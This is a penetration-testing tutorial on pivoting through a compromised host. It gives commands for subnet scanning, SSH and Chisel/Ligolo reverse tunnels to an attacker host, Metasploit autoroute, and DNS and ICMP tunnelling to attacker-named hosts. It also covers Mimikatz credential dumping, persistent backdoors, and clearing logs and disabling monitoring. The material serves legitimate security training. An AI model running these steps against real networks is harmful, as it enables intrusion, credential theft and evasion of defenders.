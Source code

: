 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. Compromise an Initial Host
- Gain access to an external system using exploits, phishing, or credentials.
- Obtain a shell or remote desktop access.

2. Identify Network Interfaces
- Check available interfaces and network connections:
  ```bash
  ip a
  ip route
  ifconfig
  netstat -rn
  ```

  Identify internal IP ranges that may indicate private networks.

3. Enumerate Internal Network
- Scan internal subnets using: `nmap -sP 10.10.0.0/24`
- Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
- Extract credentials if possible (e.g., from memory dumps or configuration files).

4. Establish Pivoting

a. SSH Tunneling (Dynamic and Local Port Forwarding)
  - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
  - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`

b. ProxyChains
  - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
  - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24`

c. Chisel (Fast TCP/UDP Tunneling)
  - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
  - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
  - Use ProxyChains with Chisel for further tunneling.

d. Ligolo (Auto Route Creation)
  - On attacker's machine: `./ligolo -reverse -listen :9090`
  - On compromised machine: `./ligolo -connect attacker-ip:9090`

e. Metasploit Pivoting
  - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
  - Use socks4a module to enable ProxyChains:
    ```bash
    use auxiliary/server/socks4a
    set SRVPORT 1080
    exploit
    ```
f. SSHuttle Pivoting
  - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
  
g. Plink (PuTTY Link) Pivoting
  - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`

h. RDP Pivoting
  - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`

i. ICMP Tunneling
  - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`

j. DNS Tunneling
  - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

5. Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
